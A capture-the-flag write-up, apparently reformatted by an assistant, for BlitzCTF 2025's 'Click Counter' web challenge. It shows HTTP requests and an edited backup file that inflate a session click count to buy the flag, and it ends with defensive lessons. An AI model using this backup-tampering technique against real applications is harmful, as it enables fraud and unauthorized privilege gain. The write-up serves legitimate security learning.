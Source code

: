Here's your writeup **converted into a clean GitHub-compatible Markdown file** named `click-counter.md`. You can copy-paste it directly into a new `.md` file in your GitHub repo:

````markdown
# 🖱️ CTF Writeup: Click Counter - BlitzHack (BlitzCTF 2025)

**Category:** Web  
**Challenge Type:** Clicker-style web app  
**Flag Format:** `Blitz{...}`  
**Flag:** `Blitz{N3x7js_M1ddl3w4r3_Byyyyp4sssssss}`

---

## 🧩 Challenge Summary

We were given a clicker-style web application with features like:

- A click counter (with cooldown)  
- Ability to "Save" progress  
- Options to "Create Backup" and "Restore Backup"  
- A hidden "Buy Flag" button in the Settings panel  

The `/buy` page displayed:

- Flag price: **9999**  
- Current click count (loaded from session cookie)  
- A "Buy Now" button → Sends a POST to `/buy_item`

### 🎯 Objective

Buy the flag using clicks. But manually reaching 9999 clicks is impractical — we needed to **shortcut it via a vulnerability**.

---

## 🛠️ Step-by-Step Exploit

### 1️⃣ Saving Clicks – Session Cookie Observed

```http
POST /save
Content-Type: application/json
Cookie: session=eyJjbGlja3MiOjV9...

Payload:
{"clicks": 5}
````

✅ **Insight:** The session is a Base64-encoded JSON storing click count — this is a client-side session.

---

### 2️⃣ Trying to Buy the Flag

```http
POST /buy_item
Cookie: session=eyJjbGlja3MiOjV9...

Payload:
{"buy_item": "Flag"}
```

🔁 **Response:**

```json
{"message": "Insufficient Funds", "success": false}
```

---

### 3️⃣ Attempting Direct Backup Abuse

```http
POST /restore_backup
Content-Type: application/json

Payload:
{"clicks": 99999}
```

🚫 **Response:**

```json
{"error": "Invalid backup data."}
```

---

### 4️⃣ Create Legit Backup via UI

From the UI:
**Settings → Create Backup**
This downloaded `backup.json` (snipped):

```json
{
  "session_data": {
    "clicks_data": {
      "clickStore": 5,
      "currency": "tokens"
    }
  }
}
```

✅ **Insight:** `clickStore` is the internal variable used to restore the session click count.

---

### 5️⃣ Modify and Restore Backup

We modified `clickStore`:

```json
"clickStore": 99999
```

Then restored it via:
**Settings → Restore Backup**

➡️ New session cookie:

```js
Set-Cookie: session=eyJjbGlja3MiOjk5OTk5fQ...
```

---

### 6️⃣ Buy Flag Again (Now We Have Enough Clicks)

```http
POST /buy_item
Cookie: session=eyJjbGlja3MiOjk5OTk5fQ...

Payload:
{"buy_item":"Flag"}
```

✅ **Response:**

```json
{
  "message": "Welcome to the Admin Dashboard of BlitzHack\nYou are logged in as: admin\n\nFlag\nBlitz{N3x7js_M1ddl3w4r3_Byyyyp4sssssss}",
  "success": true
}
```

---

### 💡 Why This Worked

* `clickStore` is used to reconstruct the session cookie
* No validation was done after restoring the backup
* Backend logic likely:

```python
if clicks >= 9999:
    return admin_dashboard_and_flag()
```

---

## 🚨 Lessons Learned

* Never trust user-controlled backup data
* Don’t store sensitive data (like roles or click counts) in client-side cookies
* Signed cookies aren’t safe if internal values can be modified indirectly

---

## 🏁 Final Flag

```text
Blitz{N3x7js_M1ddl3w4r3_Byyyyp4sssssss}
```

```

---

